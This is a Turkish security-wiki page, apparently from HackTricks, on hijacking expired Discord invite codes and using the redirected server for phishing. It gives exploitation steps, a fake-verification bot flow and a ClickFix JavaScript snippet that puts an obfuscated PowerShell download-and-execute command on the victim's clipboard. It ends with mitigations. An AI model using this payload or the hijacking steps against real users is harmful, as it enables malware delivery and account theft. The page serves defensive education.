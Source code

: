 # Discord Davet Hijacking

{{#include ../../banners/hacktricks-training.md}}

Discord’un davet sistemi açığı, tehdit aktörlerinin süresi dolmuş veya silinmiş davet kodlarını (geçici, kalıcı veya özel vanity) herhangi bir Seviye 3 artırılmış sunucuda yeni vanity bağlantıları olarak talep etmesine olanak tanır. Tüm kodları küçük harfe normalize ederek, saldırganlar bilinen davet kodlarını önceden kaydedebilir ve orijinal bağlantı süresi dolduğunda veya kaynak sunucu artırmasını kaybettiğinde trafiği sessizce ele geçirebilirler.

## Davet Türleri ve Ele Geçirme Riski

| Davet Türü           | Ele Geçirilebilir mi? | Koşul / Yorumlar                                                                                       |
|-----------------------|-----------------------|--------------------------------------------------------------------------------------------------------|
| Geçici Davet Bağlantısı | ✅                    | Süresi dolduktan sonra, kod mevcut hale gelir ve artırılmış bir sunucu tarafından vanity URL olarak yeniden kaydedilebilir. |
| Kalıcı Davet Bağlantısı | ⚠️                    | Silinirse ve yalnızca küçük harfler ve rakamlardan oluşuyorsa, kod tekrar mevcut hale gelebilir.        |
| Özel Vanity Bağlantısı  | ✅                    | Orijinal sunucu Seviye 3 Boost'unu kaybederse, vanity daveti yeni kayıt için mevcut hale gelir.      |

## Sömürü Adımları

1. Keşif
- `discord.gg/{code}` veya `discord.com/invite/{code}` desenine uyan davet bağlantılarını izlemek için kamu kaynaklarını (forumlar, sosyal medya, Telegram kanalları) takip edin.
- İlginç davet kodlarını toplayın (geçici veya vanity).
2. Ön Kayıt
- Seviye 3 Boost ayrıcalıklarına sahip bir Discord sunucusu oluşturun veya mevcut bir sunucuyu kullanın.
- **Sunucu Ayarları → Vanity URL** kısmında hedef davet kodunu atamayı deneyin. Kabul edilirse, kod kötü niyetli sunucu tarafından rezerve edilir.
3. Ele Geçirme Aktivasyonu
- Geçici davetler için, orijinal davetin süresi dolana kadar bekleyin (veya kaynağı kontrol ediyorsanız manuel olarak silin).
- Büyük harf içeren kodlar için, küçük harfli versiyonu hemen talep edilebilir, ancak yönlendirme yalnızca süresi dolduktan sonra aktif olur.
4. Sessiz Yönlendirme
- Eski bağlantıyı ziyaret eden kullanıcılar, ele geçirme aktif olduğunda saldırgan kontrolündeki sunucuya sorunsuz bir şekilde yönlendirilir.

## Discord Sunucusu Üzerinden Phishing Akışı

1. Sunucu kanallarını kısıtlayarak yalnızca bir **#verify** kanalının görünür olmasını sağlayın.
2. Yeni gelenleri OAuth2 ile doğrulamaya yönlendirmek için bir bot (örneğin, **Safeguard#0786**) dağıtın.
3. Bot, kullanıcıları bir CAPTCHA veya doğrulama adımı kılıfında bir phishing sitesine (örneğin, `captchaguard.me`) yönlendirir.
4. **ClickFix** UX hilesini uygulayın:
- Bozuk bir CAPTCHA mesajı gösterin.
- Kullanıcıları **Win+R** diyalogunu açmaya, önceden yüklenmiş bir PowerShell komutunu yapıştırmaya ve Enter tuşuna basmaya yönlendirin.

### ClickFix Panoya Enjeksiyon Örneği
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Bu yaklaşım, doğrudan dosya indirmelerini önler ve kullanıcı şüphesini azaltmak için tanıdık UI öğelerini kullanır.

## Önlemler

- En az bir büyük harf veya alfasayısal olmayan karakter içeren kalıcı davet bağlantıları kullanın (asla süresi dolmaz, yeniden kullanılmaz).
- Davet kodlarını düzenli olarak değiştirin ve eski bağlantıları iptal edin.
- Discord sunucu destek durumunu ve vanity URL taleplerini izleyin.
- Kullanıcıları sunucu kimliğini doğrulamaya ve panoya kopyalanmış komutları çalıştırmaktan kaçınmaya eğitin.

## Referanslar

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include /banners/hacktricks-training.md}}
